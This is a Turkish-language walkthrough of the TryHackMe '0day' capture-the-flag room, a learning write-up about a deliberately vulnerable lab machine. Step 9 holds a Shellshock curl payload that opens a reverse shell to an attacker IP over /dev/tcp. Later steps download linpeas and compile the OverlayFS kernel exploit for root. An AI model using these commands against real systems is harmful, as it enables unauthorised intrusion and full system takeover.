# THM-0day_Writeup-TR-
# TryHackMe 0day CTF Çözümü

1- Nmap taramasıyla baslayalim.  
  
2- Port 22 ve 80 calisiyor.  
  
3- Web sitesi bu sekilde. Görünürde bir sey yok.  
  
4- Gobuster ile dizin taramasi yapalim. Tarama sonuçlarına göre, incelememiz gereken en önemli yer /cgi-bin dizinidir.  
5- /cgi-bin altinda tekrar gobuster calistiralim.
  
6- /cgi-bin/test.cgi dosyasi, Shellshock (CVE-2014-6271) zafiyetini sömürmek için ideal bir hedef.  
7- Port dinleme adimina gecelim. nc -nvlp 4444 komutuyla port dinleyeceğiz.  
  
8- Baska bir terminal acip payload'umuzu calistiralim.  
9- curl -A '() { :; }; /bin/bash -i >& /dev/tcp/10.23.200.7/4444 0>&1' http://10.10.237.144/cgi-bin/test.cgi  
  
10- Reverse Shell basarili.  
  
11- python -c 'import pty; pty.spawn("/bin/bash")' komutuyla Shell'imizi geliştirelim.  
12- cd /home komutuyla gidip ls yaptigimizda ryan dosyasinin içinde user.txt gorecegiz, bu bizim user flag'imiz.  
  
13- User flag: THM{Sh3l[SANSURLENDI]ckz}  
  
14- uname -a komutunu girelim.  
15- "Kernel Versiyonu: 3.13.0-32-generic" Bu eski çekirdek versiyonu, özellikle 2014-2015 yılları arasında popüler olan ve yetki yükseltmeye izin veren birden fazla Kernel Exploit'ine karşı son derece zafiyetlidir.  
16- Yapmak istedigimiz, bu zafiyetli cekirdek için yazilmis hazır bir C exploit kodunu kendi makinemizden hedef makineye aktarmak, derlemek ve çalıştırmak olacaktır. Deneyelim  
17- Google'da ilgili exploit'i arastirdigimizda payload'lar goruyoruz herhangi birini kullanabilirsiniz.  
  

  
19- Dosyamizi hedefe atmak için python server acalim.  
<b>NOT: MAKINE TERMINATE OLDU IP ADRESI DEGISTI, AKLINIZ KARISMASIN.</b>  
20- wget http://10.23.200.7:8000/linpeas.sh ile linpeas.sh'i hedef makinemize indirelim /tmp klasörü içine olacak sekilde.  
21- chmod +x linpeas.sh ile calistirma yetkisi verelim.  
  
22- Linpeas'i calistirdik. "Executing Linux Exploit Suggester" bölümü kritik bilgiler veriyor.  
23- LinPEAS, zafiyet tespitinde en guvenilir yolu teyit etti: OverlayFS (CVE-2015-1328).  
24- https://www.exploit-db.com/exploits/37292 adresinden dosyayi indirelim. Sonra wget <LOCAL-IP>/37292.c ile hedef makinede calistirarak indirelim. (/tmp içine)  
25- Bu komutu calistiralim: gcc 37292.c -o exploit && ./exploit  
<b>NOT: HATA ALIRSANIZ CALISTIRIN: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin ardindan tekrar gcc 37292.c -o exploit && ./exploit</b>  
  
26- Goruldugu uzere root olduk.  
27- /root/root.txt yollarini izleyerek root flag'i aliyoruz.  
  
28- Root flag'i aldik. Tebrik ederim.  
  

<b>Okuduğunuz için teşekkür ederim. https://www.linkedin.com/in/albora-dogan-deniz-4a56a21b8/</b>

